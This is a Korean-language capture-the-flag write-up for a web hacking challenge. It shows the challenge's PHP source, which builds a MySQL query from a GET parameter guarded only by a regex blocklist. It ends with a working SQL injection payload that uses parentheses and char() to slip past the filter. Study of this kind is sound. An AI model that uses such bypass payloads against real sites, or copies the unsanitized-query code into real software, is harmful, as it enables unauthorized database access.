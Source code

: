 # 7

## 초기화면

![초기화면](./img/7_1.png)

---
## 풀이
auth 버튼을 클릭해보면 
![초기화면](./img/7_2.png) alert창이 뜬다.

url을 확인해보면 val값이 1인 것을 볼 수 있다. 이를 다른 값으로 바꿔본다. 
![val](./img/7_3.png)
값이 2일때는 Access Denied
![val](./img/7_4.png)
그 이외의 값은 query error가 뜬다. 

소스코드를 보면 php코드를 확인할 수 있다.
```php
<?php
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");

if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
// 필터링되는 문자들을 확인 할 수 있다.

$db = dbconnect();
$rand=rand(1,5);
if($rand==1){
  $result=mysqli_query($db,"select lv from chall7 where lv=($go)") or die("nice try!");
}
if($rand==2){
  $result=mysqli_query($db,"select lv from chall7 where lv=(($go))") or die("nice try!");
}
if($rand==3){
  $result=mysqli_query($db,"select lv from chall7 where lv=((($go)))") or die("nice try!");
}
if($rand==4){
  $result=mysqli_query($db,"select lv from chall7 where lv=(((($go))))") or die("nice try!");
}
if($rand==5){
  $result=mysqli_query($db,"select lv from chall7 where lv=((((($go)))))") or die("nice try!");
}
// rand 조건문은 쿼리값에 크게 영향을 주지 않는다.

$data=mysqli_fetch_array($result);

if(!$data[0]) { echo("query error"); exit(); }

if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
// 문제를 풀기위해서는 쿼리에 2값을 넘겨야 하는 듯..
?>
```

최종 페이로드는
`99)union(Select(char(50)))`

기본적으로는 union함수를 활용한다.

/s 즉 공백이 필터링되기 때문에 괄호로 처리한다

2도 필터링되기 때문에 char()함수를 활용하여 ascii값 50를 2로 변환한다.

---
## 통과

![통과](./img/7_pass.png)

